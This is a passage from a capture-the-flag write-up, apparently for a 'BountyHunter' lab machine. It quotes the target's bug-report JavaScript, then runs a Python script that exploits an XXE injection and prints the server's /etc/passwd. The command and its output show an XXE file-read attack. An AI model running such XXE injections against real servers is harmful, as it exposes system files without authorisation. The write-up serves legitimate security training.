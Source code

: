 /resources/bountylog.js

```
function returnSecret(data) {
	return Promise.resolve($.ajax({
            type: "POST",
            data: {"data":data},
            url: "tracker_diRbPr00f314.php"
            }));
}

async function bountySubmit() {
	try {
		var xml = `<?xml  version="1.0" encoding="ISO-8859-1"?>
		<bugreport>
		<title>${$('#exploitTitle').val()}</title>
		<cwe>${$('#cwe').val()}</cwe>
		<cvss>${$('#cvss').val()}</cvss>
		<reward>${$('#reward').val()}</reward>
		</bugreport>`
		let data = await returnSecret(btoa(xml));
  		$("#return").html(data)
	}
	catch(error) {
		console.log('Error:', error);
	}
}

```

We can mimic this functions with a [python script](scripts/xxe_inj.py), sending our own XML data to the `tracker_diRbPr00f314.php` page and try to exploit an XXE injection vulnerability.
__ATTENTION__: check the python script to know what we are doing

```bash
[exyss@exyss BountyHunter]$ python scripts/xxe_inj.py file:///etc/passwd
XXE INJECTION::
------------------------------
file:///etc/passwd

OUTPUT:
------------------------------
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
```
